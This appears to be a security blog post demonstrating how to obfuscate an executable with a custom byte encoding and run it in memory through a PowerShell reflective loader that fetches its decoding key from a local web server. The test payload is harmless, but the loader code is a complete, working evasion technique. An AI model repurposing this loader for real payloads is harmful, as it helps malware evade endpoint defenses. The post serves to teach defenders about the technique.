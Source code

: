 ```yaml
---
title: Alternate Execution Methods - Encoding Payloads and Executing In-Memory via PowerShell
author: misthi0s
categories: ["execution"]
tags: [execution, .net, powershell, encoding, reflection]
date: 2024-12-01 12:42:00
featuredImagePreview: "/images/8a1ef8a480285b6c263d4dac97a3e6d3941aaba5.jpg"
---
```


In this post, we'll go over a fun little project I've been working on; encoding an executable and using a PowerShell script to decode it and execute it in-memory. This is a common technique employed by malware to try to evade security tools on the infected system. By not writing a malicious executable to disk, there's less of a chance that any sort of endpoint security tool will detect and quarantine it before it can be executed. While this example will be rather simplistic in nature, it will hopefully outline how easy such a technique can be performed and provide some insight into one of many ways that threat actors will try to get their payload executed on their target.

## Creating the Main Payload

For this example, we'll be using a benign C# executable as our "malicious" payload. The main requirement of this payload is to prove that it executed properly, so it doesn't really matter what it does, as long as it produces something tangible for us to see. To achieve this, the program will simply launch a message box stating that the execution was successful. The C# code for this executable can be seen below:

```
using System.Windows.Forms;

namespace MsgBox
{
    internal class Program
    {
        static void Main()
        {
            MessageBox.Show("Successful execution!", "misthi0s", MessageBoxButtons.OK, MessageBoxIcon.Exclamation);
        }
    }
}
```

Successful execution of this program produces the following:

![](/images/1e07f6a2dcb7889d15e621db429b4da6fa9c0125.png)

## Encoding the Payload

To help obfuscate the payload, we'll encode it by transposing each byte of the binary to something else. Obfuscation is another technique heavily employed by malware to hide its malicious nature, and encoding is one such way to achieve this. While we could use something like Base64 encoding, that's a bit too well-known and monitored for, so we'll employ our own encoding algorithm instead. For this, we'll use a tool that I created called Astartes. [Astartes](https://github.com/misthi0s/Astartes) is a Python-based encoding tool that will take each byte of an input dataset and convert it to the name of an Adeptus Astartes chapter (for those unfamiliar with Warhammer 40k, an Adeptus Astartes is a Space Marine).

To obfuscate our payload even further, Astartes uses a seed to randomize the master list of chapter names on execution, requiring a person to know the seed used to properly decode the information. We'll use the seed "Sororitas" (another 40k reference) to encode our payload; the full command-line for this Astartes execution can be seen below:

```
python astartes.py --file D:\repo\_CS\MessageBox\MessageBox\bin\Release\MessageBox.exe --seed Sororitas
```

This will create a file called `astartes_encoded.txt` that contains our encoded `MessageBox.exe` payload. A small snippet of this file can be seen below:

```
CRIMSONLEGION,CHARNELGUARD,RAPTORS,NIGHTSWORDS,BURNINGBLOOD,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,BLOODTIGERS,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,SONSOFTHEPHOENIX,SONSOFTHEPHOENIX,NIGHTSWORDS,NIGHTSWORDS,WHITESCARS,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,NIGHTSWORDS,DOOMEAGLES,NIGHTSWORDS,NIGHTSWORDS,...
```

As mentioned before, each value (comma-separated) represents a byte from the `MessageBox.exe` binary, concealing its true nature in a seemingly random collection of strings.

## Creating the PowerShell Script

Now that we have the encoded blob of our malicious payload, we need to create a PowerShell script to decode it and execute it in-memory. Below is the full PowerShell script that will do this (explanation of major components to follow):

```
# Initialize empty byte array
[byte[]] $DecodedBytes

# Get encoded blob
$Encoded = Get-Content -Path D:\repo\_Python\Astartes\astartes_encoded.txt

# Get decoding key
$Response = IWR -URI http://127.0.0.1:5000/?_=Sororitas
$Content = $Response.Content
$DecodingKey = $Content | ConvertFrom-Json

# Convert encoded blob to array
$Array = $Encoded.Split(",")

# Loop through array, decoding byte, saving to byte array
$Array | ForEach-Object {
	$Decoded = $DecodingKey.indexOf($_)
	$DecodedBytes += [byte[]]$Decoded
}

# Convert byte array to Base64 then convert back.
$Base64String = [System.Convert]::ToBase64String($DecodedBytes)
$FullBytes = [System.Convert]::FromBase64String($Base64String)

# Load the executable reflectively
$Assembly = [System.Reflection.Assembly]::Load($FullBytes)

# Get the "Main" function in the loaded exe
$EntryPoint = $Assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')

# Execute the exe
$EntryPoint.Invoke($null, $null)
```

## PowerShell Script Explained

The following section handles the decoding of the payload:

```
# Get encoded blob
$Encoded = Get-Content -Path D:\repo\_Python\Astartes\astartes_encoded.txt

# Get decoding key
$Response = IWR -URI http://127.0.0.1:5000/?_=Sororitas
$Content = $Response.Content
$DecodingKey = $Content | ConvertFrom-Json

# Convert encoded blob to array
$Array = $Encoded.Split(",")

# Loop through array, decoding byte, saving to byte array
$Array | ForEach-Object {
	$Decoded = $DecodingKey.indexOf($_)
	$DecodedBytes += [byte[]]$Decoded
}
```

For this example, we're first getting the encoded contents from the file `D:\repo\_Python\Astartes\astartes_encoded.txt` and storing it into variable `$Encoded`. The encoded string can (and most likely would, in a real world scenario) be saved directly in the PowerShell script, but I chose to do it this way for brevity's sake. 

Next, we need to get the decoding key to actually be able to decode the payload. This key will be the master list of chapter names, randomized according to the seed provided, to let us translate each chapter name to the byte value that was encoded. Astartes supports accessing this list via a web request (and includes an example [server script](https://github.com/misthi0s/Astartes/blob/main/examples/server_test/server.py) to achieve this), which is what is going on with the command `$Response = IWR -URI http://127.0.0.1:5000/?_=Sororitas`. Just like the encoded string, this list can be hardcoded into the script as a variable, but would also provide anyone analyzing the script the master decoder key, losing a bit of OpSec in the process.

After some formatting commands, we'll have two array variables: `$Array` containing the encoded blob and `$DecodingKey` containing the decoder list. The following `ForEach-Object` loop will go through each value in `$Array`, determine where that value exists in `$DecodingKey`, then get the index value of that item. This index value will be the exact byte value of that part of the encoded executable. In this example, this means that the string `NIGHTSWORDS` represents the byte value `0`, `GORGONS` represents `1`, `LEGIONOFTHEDAMNED` represents `2`, and so on. Once the entire `$Array` variable has been processed through this loop, we'll have the array variable `$DecodedBytes`, which will be the full byte representation of the `MessageBox.exe` binary.

The next portion of the script will handle the in-memory execution of our `MessageBox.exe` binary:

```
# Convert byte array to Base64 then convert back.
$Base64String = [System.Convert]::ToBase64String($DecodedBytes)
$FullBytes = [System.Convert]::FromBase64String($Base64String)

# Load the executable reflectively
$Assembly = [System.Reflection.Assembly]::Load($FullBytes)

# Get the "Main" function in the loaded exe
$EntryPoint = $Assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')

# Execute the exe
$EntryPoint.Invoke($null, $null)
```

For some reason, this script would only work if I first re-encoded the payload bytes to Base64 and then decoded them back into the original bytes. I'm really not sure why this was required, but it was the only way to get it to work (I suspect some weird PowerShell behavior, as loading the binary directly from the source worked without doing this, and I confirmed that the decoded bytes and the directly loaded bytes of the payload were 100% exactly the same).

Once this is done, the `MessageBox.exe` byte blob is loaded via Reflective Code Loading by the code `$Assembly = [System.Reflection.Assembly]::Load($FullBytes)`. Reflection is a technique used extensively by malware, and is something that I've even covered a sample doing in a [previous blog post](https://misthi0s.dev/posts/2024-05-12-powershell-reflective-dll-injection-sample-1/). 

To actually execute the loaded assembly, the `Main` function needs to be found and accessed, so the program knows where the starting point of the payload is. This is achieved by the code `$EntryPoint = $Assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')`

Finally, now that the entry point of the payload has been found, it needs to be executed. This can be done with the `Invoke` command found in the line: `$EntryPoint.Invoke($null, $null)`. The second parameter of `Invoke` denotes the arguments that the loaded program requires, but since ours has no input arguments, `$null` is used.

## Putting It All Together

If everything works properly, upon script execution, our encoded payload should be decoded and then executed in-memory by the running PowerShell process. All that's left to do is to test it out.

First, we need to make sure the web server is running to obtain the master decoder list. This can be done by running the `server.py` script in the Astartes repo with the following command:

```
python server.py
```

Now, we simply execute the PowerShell script and, if everything works, we should see our message box.

![](/images/026c439a114ee381abbfb44ab2dfbd0425113267.png)

Success! We have successfully taken our executable payload, encoded it, then decoded it and executed it in-memory in the context of a PowerShell process. While this particular example isn't actually malicious in nature, it does outline how threat actors and malware can use multiple techniques to try and evade defensive measures to get their payloads to execute on a system.